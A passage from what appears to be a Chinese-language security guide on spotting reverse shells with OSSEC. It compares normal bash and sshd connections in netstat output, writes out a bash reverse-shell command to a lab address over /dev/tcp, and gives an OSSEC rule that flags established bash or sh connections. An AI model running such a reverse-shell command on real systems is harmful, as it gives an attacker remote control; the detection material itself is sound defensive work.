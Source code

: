 通常情况下Bash进程是不会存在连接状态的，其父进程SSHD存在网络连接，如下：

```text
[root@sec248 cron.daily]# ps -ef | grep bash | grep -v grep

root     41011 41009  0 08:42 pts/4    00:00:00 -bash

root     45984 45982  0 Dec21 pts/1    00:00:00 -bash

[root@sec248 cron.daily]# netstat -antlp | grep sshd | grep EST

tcp        0     64 10.59.0.248:22              192.168.190.201:52947       ESTABLISHED 41009/sshd         

tcp        0      0 10.59.0.248:22              192.168.190.201:2164        ESTABLISHED 45982/sshd
```

而反弹shell时，反弹命令bash -i &gt;& /dev/tcp/192.168.192.144/2345 0&gt;&1，我们看一下反弹连接

```text
[root@server120 ~]# netstat -antlp | grep bash

tcp        0      0 192.168.192.120:34710       192.168.192.144:2345        ESTABLISHED 15497/bash
```

可以看到存在Bash连接，那么我们添加OSSEC的监控项

```text
<localfile>

    <log_format>full_command</log_format>

    <command>netstat -antlp | grep ESTABLISHED | egrep '/(bash|sh)'</command>

  </localfile>
```

